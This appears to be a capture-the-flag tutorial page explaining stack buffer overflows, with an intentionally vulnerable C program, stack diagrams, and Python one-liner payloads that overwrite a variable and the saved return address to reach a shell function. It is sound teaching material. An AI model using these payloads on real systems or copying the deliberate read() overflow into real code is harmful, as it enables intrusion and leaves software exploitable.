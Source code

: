A Buffer Overflow is a vulnerability in which data can be written which exceeds the allocated space, allowing an attacker to overwrite other data.

## Stack buffer overflow

The simplest and most common buffer overflow is one where the buffer is on [the stack](https://ctf101.org/binary-exploitation/what-is-the-stack/). Let's look at an example.

```
#include <stdio.h>

int main() {
    int secret = 0xdeadbeef;
    char name[100] = {0};
    read(0, name, 0x100);
    if (secret == 0x1337) {
        puts("Wow! Here's a secret.");
    } else {
        puts("I guess you're not cool enough to see my secret");
    }
}
```
There's a tiny mistake in this program which will allow us to see the secret. `name` is decimal 100 bytes, however we're reading in hex 100 bytes (=256 decimal bytes)! Let's see how we can use this to our advantage.

If the compiler chose to layout the stack like this:

```
        0xffff006c: 0xf7f7f7f7  // Saved EIP
        0xffff0068: 0xffff0100  // Saved EBP
        0xffff0064: 0xdeadbeef  // secret
...
        0xffff0004: 0x0
ESP ->  0xffff0000: 0x0         // name
```
let's look at what happens when we read in 0x100 bytes of 'A's.

The first decimal 100 bytes are saved properly:

```
        0xffff006c: 0xf7f7f7f7  // Saved EIP
        0xffff0068: 0xffff0100  // Saved EBP
        0xffff0064: 0xdeadbeef  // secret
...
        0xffff0004: 0x41414141
ESP ->  0xffff0000: 0x41414141  // name
```
However when the 101st byte is read in, we see an issue:

```
        0xffff006c: 0xf7f7f7f7  // Saved EIP
        0xffff0068: 0xffff0100  // Saved EBP
        0xffff0064: 0xdeadbe41  // secret
...
        0xffff0004: 0x41414141
ESP ->  0xffff0000: 0x41414141  // name
```
The least significant byte of `secret` has been overwritten! If we follow the next 3 bytes to be read in, we'll see the entirety of `secret` is "clobbered" with our 'A's

```
        0xffff006c: 0xf7f7f7f7  // Saved EIP
        0xffff0068: 0xffff0100  // Saved EBP
        0xffff0064: 0x41414141  // secret
...
        0xffff0004: 0x41414141
ESP ->  0xffff0000: 0x41414141  // name
```
The remaining 152 bytes would continue clobbering values up the stack.

### Passing an impossible check

How can we use this to pass the seemingly impossible check in the original program? Well, if we carefully line up our input so that the bytes that overwrite `secret` happen to be the bytes that represent 0x1337 in little-endian, we'll see the secret message.

A small Python one-liner will work nicely: `python -c "print 'A'*100 + '\x31\x13\x00\x00'"`

This will fill the `name` buffer with 100 'A's, then overwrite `secret` with the 32-bit little-endian encoding of 0x1337.

### Going one step further

As discussed on [the stack](https://ctf101.org/binary-exploitation/what-is-the-stack/) page, the instruction that the current function should jump to when it is done is also saved on the stack (denoted as "Saved EIP" in the above stack diagrams). If we can overwrite this, we can control where the program jumps after `main` finishes running, giving us the ability to control what the program does entirely.

Usually, the end objective in binary exploitation is to get a shell (often called "popping a shell") on the remote computer. The shell provides us with an easy way to run _anything_ we want on the target computer.

Say there happens to be a nice function that does this defined somewhere else in the program that we normally can't get to:

```
void give_shell() {
    system("/bin/sh");
}
```
Well with our buffer overflow knowledge, now we can! All we have to do is overwrite the saved EIP on the stack to the address where `give_shell` is. Then, when main returns, it will pop that address off of the stack and jump to it, running `give_shell`, and giving us our shell.

Assuming `give_shell` is at 0x08048fd0, we could use something like this: `python -c "print 'A'*108 + '\xd0\x8f\x04\x08'"`

We send 108 'A's to overwrite the 100 bytes that is allocated for `name`, the 4 bytes for `secret`, and the 4 bytes for the saved EBP. Then we simply send the little-endian form of `give_shell`'s address, and we would get a shell!

This idea is extended on in [Return Oriented Programming](https://ctf101.org/binary-exploitation/return-oriented-programming/)
